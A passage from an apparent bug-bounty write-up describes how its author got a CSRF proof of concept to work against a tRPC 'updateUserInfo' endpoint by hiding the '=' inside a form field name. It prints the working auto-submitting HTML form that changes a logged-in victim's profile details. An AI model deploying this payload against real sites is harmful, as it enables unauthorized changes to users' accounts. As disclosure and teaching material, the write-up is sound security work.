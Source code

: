 this resulted in error&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Fixing the CSRF Exploit

To bypass this issue, I realized the `=` symbol could be "hidden" within a known parameter value instead of being treated as part of a new parameter. I tweaked the PoC code as follows:

```html
<html>
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;Cyberar s&quot;&#44;&quot;name&quot;&#58;&quot;asdf ccccc&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1099424296&quot;&#44;&quot;country&quot;&#58;&quot;EG" value="&quot;&#125;&#125;&#13;&#10;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
